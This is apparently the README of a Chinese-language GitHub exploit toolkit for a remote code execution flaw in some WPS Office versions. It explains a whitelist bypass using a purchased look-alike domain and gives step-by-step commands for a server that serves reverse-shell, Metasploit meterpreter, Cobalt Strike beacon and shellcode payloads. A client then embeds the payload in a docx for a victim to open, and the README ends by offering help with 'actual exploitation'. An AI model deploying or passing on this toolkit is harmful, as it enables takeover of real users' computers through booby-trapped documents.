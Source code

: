 # WPS Office Rce

## 影响版本

* WPS Office 2023 个人版 < 11.1.0.15120
* WPS Office 2019 企业版 < 11.8.2.12085

## 漏洞介绍

### 什么是WebExtension

* Office 中的 WebExtension（通常称为 Office 插件或 Office 应用程序）是一种用于扩展 Microsoft Office 功能的技术。Office 插件使第三方开发者能够在 Office 应用程序中集成自己的服务和功能。这些插件采用跨平台的 Web 技术（如 HTML, CSS 和 JavaScript）开发，可以在不同的平台和设备上运行。

* 简单理解就是office内置了一个浏览器，可以解析`html/javascript/css`代码。

* 本次的漏洞，就是WPS在处理WebExtension时，未能正确的处理`javascript`代码，造成了溢出RCE。（可以参考之前chrome被爆出的RCE漏洞、微信 Windows 版 < 3.1.2.141存在RCE漏洞，比较类似）

### 漏洞利用限制

1.  购买`***wps.cn`的域名

* 既然是由WebExtension中的`javascript`造成的，那么就需要准备对应的html文件，WebExtension支持从第三方网站加载html，所以需要在公网开启web服务，用来共享html文件。

* 由于wps的限制，当我们加载第三方网站的html时，wps会进行提醒，大概如下面图片。

![Alt text](./assets/image-20230811152820721.png)

* 在WPS中，`wps.cn`的域名是在白名单中的，只要我们加载的资源在`wps.cn`的网站中，就不会有这个提示。但是我们是无法控制`wps.cn`的。
* 在WPS中，白名单检测存在漏洞，代码中可能使用了`http://.*?.wps.cn`的正则匹配，在这个匹配中，明显存在漏洞，我们只需要把html文件放在`http://hackwps.cn`的网站中，就可以绕过检测。
* 因此，想要利用这个漏洞，必须要购买一个域名，域名中只需要包含`wps.cn`即可，比如`hackerwps.cn`、`xxxwps.cn`。

2. 部署html文件到vps上，并且把域名绑定到vps

* 购买域名和vps后，需要把子域名 `clientweb.docer.wps.cn.***wps.cn`解析到购买的vps上，尽量套一层cdn，再使用nginx反向代理到搭建的服务上。（具体`域名/vps/cdn`可以自行学习部署。）
* 这里的子域名，必须为 `clientweb.docer.wps.cn.***wps.cn`，不然无法过白名单。

## 工具使用

* git clone项目

```
git clone https://github.com/ba0gu0/wps_rce
```

* 安装对应的依赖
* 程序需要使用`python3.8`以上的版本才能够正常运行。
* 程序只在`Mac/Linux`上进行了测试，Windows上运行出现问题，不再进行解答（自行找Linux虚拟机测试）。

```
cd wps_rce
pip install -r requirement.txt -i https://pypi.tuna.tsinghua.edu.cn/simple
```
### 操作演示

[8月11日.webm](https://github.com/ba0gu0/wps-rce/assets/19379443/489c2c86-98bb-4385-b53c-1542afbf1d24)

### 服务端

* 服务端在`server`目录下的`main.py`, 此python脚本的作用是用来生成html代码，同时支持生成shell、msf、cs反弹的代码。

* 需要购买域名`***wps.cn`
* 需要购买vps
* 需要将域名`clientweb.docer.wps.cn.***wps.cn`解析到vps上
* 此处运行`main.py`时，监听端口为80端口，需要使用root权限。

```
cd server
python main.py
```

![image-20230811153226311](./assets/image-20230811153226311.png)

* 默认情况下，为了方便和域名绑定，服务监听端口为80端口。
* 如果想使用nginx/caddy进行反向代理，可以自行修改端口。

![image-20230811153844569](./assets/image-20230811153844569.png)

### 服务端功能

* 直接访问域名解析的地址，或者vps的端口

![image-20230811154049949](./assets/image-20230811154049949.png)

* 此服务端基于网上公开的poc进行开发，访问对应的地址，可以直接生成对应程序的利用代码。


* url对应cs和msf的payload列表

| url地址                     | 平台 | payload                                          |
| --------------------------- | ---- | ------------------------------------------------ |
| /calc                       | 无   | 执行calc命令                                     |
| /shell/1.1.1.1/9000         | all  | 服务器监听：nc -lnvp 9000                        |
| /msf/tcp/1.1.1.1/9000       | msf  | windows/meterpreter/reverse_tcp                  |
| /msf/http/1.1.1.1/80        | msf  | windows/meterpreter/reverse_http                 |
| /msf/https/1.1.1.1/443      | msf  | windows/meterpreter/reverse_https                |
| /cs/http/1.1.1.1/80         | cs   | Beacon http                                      |
| /cs/https/1.1.1.1/443       | cs   | Beacon https                                     |
| /shellcode/base64_shellcode | 无   | 任意的windows可用的shellcode，需要进行base64编码 |

* 比如在绑定域名的情况下，访问`https://clientweb.docer.wps.cn.***wps.cn/calc`, 就会生成弹计算器的攻击payload。

* 访问`https://clientweb.docer.wps.cn.***wps.cn/msf/1.1.1.1/4444`, 就会生成msf上线的payload。

![image-20230811154424873](./assets/image-20230811154424873.png)


### 客户端

* 客户端在`client`目录下的`main.py`, 此python脚本的作用是用来生成docx文件的。
* 需要提供一个正常的docx文件，攻击payload将被插入到此docx中。
* 需要根据上面搭建的服务端，提供url地址，类似于`https://clientweb.docer.wps.cn.***wps.cn/shell/1.1.1.1/9000`

```
cd client
python main.py ~/Downloads/temp.docx http://clientweb.docer.wps.cn.cloudwps.cn/shell/1.1.1.1/9000
```

![image-20230811152820733](./assets/image-20230811152820733.png)

#### 本地测试

* docx在利用的时候，需要购买`***wps.cn`的域名，如果没有域名，单纯的进行本地测试，可以修改电脑的hosts文件，手动绑定域名。
* 安装wps的有漏洞版本，修改hosts文件。
* 修改`C:\Windows\System32\drivers\etc\hosts`文件，添加`127.0.0.1    clientweb.docer.wps.cn.cloudwps.cn`（注意，此操作是为了方便本地测试，实际利用时必须购买域名。）
* 注意，上面添加的hosts文件中，`127.0.0.1`需要根据实际情况来填，此IP为运行的server端IP地址。如果server端就运行在本机，可以填`127.0.0.1`，如果运行在其他Linux服务器上，需要确认IP地址能否正常访问。
* 选择服务端payload，是弹计算器、反弹shell、反弹msf还是反弹cs。
* 如果反弹shell，则生成url，`http://clientweb.docer.wps.cn.cloudwps.cn/shell/1.1.1.1/9000`，此处的`1.1.1.1`需要修改为运行nc命令的服务器的IP，此处的IP也可以使用域名。9000需要改为nc监听的端口。（注意，此处的IP和nc是单独的，就是为了接受shell，省事的话，可以直接用运行服务端的服务器去运行。）
* 使用客户端命令生成攻击docx文件，`python main.py ~/Downloads/temp.docx http://clientweb.docer.wps.cn.cloudwps.cn/shell/1.1.1.1/9000`
* 将生成的`wps_office_rce_***.docx`文件，复制到安装wps的电脑，直接双击打开之前在客户端中。

## 实际利用

* 先买域名吧，有域名可以私聊沟通。
